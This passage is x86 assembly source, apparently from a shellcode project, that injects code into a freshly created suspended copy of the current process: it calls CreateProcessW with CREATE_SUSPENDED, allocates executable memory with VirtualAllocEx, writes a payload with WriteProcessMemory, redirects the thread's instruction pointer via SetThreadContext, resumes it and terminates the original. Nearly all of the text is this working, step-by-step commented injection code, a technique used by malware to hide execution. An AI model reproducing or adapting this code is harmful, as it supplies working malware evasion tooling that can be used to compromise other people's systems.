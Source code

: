                                             ; structure in EAX 
        mov eax, [eax+0x3C]                 ; Store the address of the ImageProcessName value in EAX 
        mov [ebp+0x40], eax                 ; Store the address of the process path at EBP+0x40 to use later 
        
        ; Create & Initialize structures
        xor ecx, ecx
        mov cl, 0x54
        call create_empty_structure
        
        mov byte[edi], 0x44                 ; Set STARTUPINFOW.cb = 0x44
        
        ; Create a suspended process
        lea esi, [edi+0x44]                 ; Load the effective address of the PROCESS_INFORMATION structure into ESI
        push esi                            ; Push the pointer to the lpProcessInformation structure
        push edi                            ; Push the pointer to the lpStartupInfo structure
        push eax                            ; lpCurrentDirectory = NULL
        push eax                            ; lpEnvironment = NULL
        push 0x04                           ; dwCreationFlags = CREATE_SUSPENDED
        push eax                            ; bInheritHandles = FALSE
        push eax                            ; lpThreadAttributes = NULL
        push eax                            ; lpProcessAttributes = NULL
        push dword [ebp+0x40]               ; lpCommandLine = current process
        push eax                            ; lpApplicationName = NULL
        call [ebp+0x08]                     ; Call CreateProcessW
        
        ; Begin GetThreadContext
        sub esp, 0x0400                     ; Create 1024 bytes for CONTEXT object on stack
        push 0x010007                       ; CONTEXT ContextFlags = CONTEXT_FULL
        push esp                            ; lpContext
        push dword [esi+0x04]               ; hThread = PROCESS_INFORMATION.hThread = ESI+0x04
        call [ebp+0x10]                     ; Call GetThreadContext
 
        ; Begin VirtualAllocEx
        push 0x40                           ; flProtect = PAGE_EXECUTE_READWRITE
        push 0x1000                         ; flAllocationType = MEM_COMMIT
        push 0x5000                         ; dwSize = 20kb
        push 0                              ; lpAddress = NULL
        push dword [esi]                    ; hProcess = PROCESS_INFORMATION.hProcess = ESI
        call [ebp+0x14]                     ; Call VirtualAllocEx
 
        ; Setup CONTEXT object for thread change
        mov [esp+0xB8], eax                 ; CONTEXT object offset 0xB8 = EIP
        
        ; Begin WriteProcessMemory
        push 0                              ; lpNumberOfBytesWritten = NULL
        push 0x0C0                          ; nSize = 0x0C0 = 192 bytes 
        jmp long injected_code              ; jump to the stored code 
        injected_code_return:               ; lpBuffer = return address pushed to the stack
        push eax                            ; lpBaseAddress = EAX
        push dword [esi]                    ; hProcess = PROCESS_INFORMATION.hProcess = ESI
        call [ebp+0x18]                     ; Call WriteProcessMemory
 
        ; Begin SetThreadContext
        push esp                            ; lpContext = CONTEXT structure
        push dword [esi+0x04]               ; hThread = PROCESS_INFORMATION.hThread = ESI+0x04
        call [ebp+0x1C]                     ; Call SetThreadContext
 
        ; Begin ResumeThread
        push dword [esi+0x04]               ; hThread = PROCESS_INFORMATION.hThread = ESI+0x04
        call [ebp+0x20]                     ; Call ResumeThread
 
        ; Begin TerminateProcess
        call [ebp+0x0C]
    
    main:
        sub esp, 0x88                       ; Allocate space on stack for function addresses